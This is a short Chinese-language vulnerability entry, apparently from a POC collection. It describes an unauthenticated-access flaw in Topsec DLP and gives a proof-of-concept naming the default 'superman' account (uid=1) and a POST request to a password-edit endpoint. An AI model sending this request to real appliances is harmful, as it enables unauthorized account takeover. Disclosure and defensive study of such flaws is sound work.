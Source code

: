 # 天融信 DLP 未授权访问漏洞

# 天融信 DLP 未授权访问漏洞

## 漏洞描述

天融信DLP存在未授权访问漏洞

## 漏洞影响

```
天融信DLP
```

## 漏洞复现

POC为

```plain
默认用户superman的uid=1
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```


